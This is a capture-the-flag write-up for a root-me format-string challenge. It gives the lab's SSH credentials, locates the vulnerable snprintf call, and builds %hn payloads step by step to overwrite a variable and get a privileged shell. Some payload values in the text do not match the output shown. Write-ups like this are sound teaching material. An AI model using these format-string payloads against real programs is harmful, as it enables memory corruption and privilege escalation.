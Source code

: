 # ELF x86 - Format string bug basic 2
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-2
```
Environment configuration :
PIE 	Position Independent Executable 	 No
RelRO 	Read Only relocations 	                 No
NX 	Non-Executable Stack 	                 YES
ASLR 	Address Space Layout Randomization 	 No
SF 	Source Fortification 	                 No
SSP 	Stack-Smashing Protection 	         No
SRC 	Source code access 	                 Yes

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch14@challenge02.root-me.org  
Username	app-systeme-ch14
Password	app-systeme-ch14
```
According to the source, the goal is to change the variable _check_ from 0x04030201 to 0xdeadbeef using string format vulnerability.<br>
The vulnerable code is at line 25:
```c
snprintf( fmt, sizeof(fmt), argv[1] );
```
Which enables an attacker to control the **fmt** argument of _snprintf_.<br>
Let's verify it quickly:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 %08x.%08x.%08x.%08x
check at 0xbffffb08
argv[1] = [%08x.%08x.%08x.%08x]
fmt=[b7fdc4a0.00000001.00000000.00000001]
check=0x4030201
```
In order to exploit this vulnerability, first we'll need to find the offset of to our **argv[1]**. After few tries, one can find out that the offset is 9:
```sh
app-systeme-ch14@challenge02:~$ ./ch14 "AAAA %x %x %x %x %x %x %x %x %x"
check at 0xbffffaf8
argv[1] = [AAAA %x %x %x %x %x %x %x %x %x]
fmt=[AAAA b7fdc4a0 1 0 1 bffffc24 0 0 4030201 {41414141}]
check=0x4030201
```
Let's try to override the first nimble of **check**.<br>
First, we'll enter **check**'s address to the format string.<br>
Then, we'll make sure that the output string will contain enough bytes, so 0xbeef will be written.<br>
And for last, we'll take advantage of the "$" (control which variable will be used) and "hn" (writes the number of bytes into an int pointer) options.
So the input should look like ```\x08\xfb\xff\xbf%48875x%9$hn``` (the 48875 can be found by trial and error):
```sh
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffb08
argv[1] = ���%48875x%9$hn]

You are on the right way !
fmt=���                                                                                                                           ]
check=0x403beef
```
Great!<br>
Now let's write the second nimble.<br>
First, we'll enter the second nimble's address into the buffer (0xbffffb08 + 2 = 0xbffffb0a).<br>
Second, we'll adjust the 48875 to 48871 (4 more bytes entered).<br>
Then, at the end we'll make sure that the output string will contain enough bytes, so 0xdead will be written.<br>
And for last, we again take advantage of the "$" and "hn" options.<br>
So the input should look like ```\x08\xfb\xff\xbf\x0a\xfb\xff\xbf%48871x%9hn%8126x%10$hn```:
```
app-systeme-ch14@challenge02:~$ ./ch14 $(python /tmp/exploit.py)
check at 0xbffffaf8
argv[1] = [��������%48871x%9$hn%73662x%10$hn]
fmt=[��������                                                                                                                       ]
check=0xdeadbeef
Yeah dude ! You win !
$ id
uid=1114(app-systeme-ch14) gid=1114(app-systeme-ch14) euid=1214(app-systeme-ch14-cracked) groups=1214(app-systeme-ch14-cracked),100(users),1114(app-systeme-ch14)
$ cat .passwd
<censored>
```
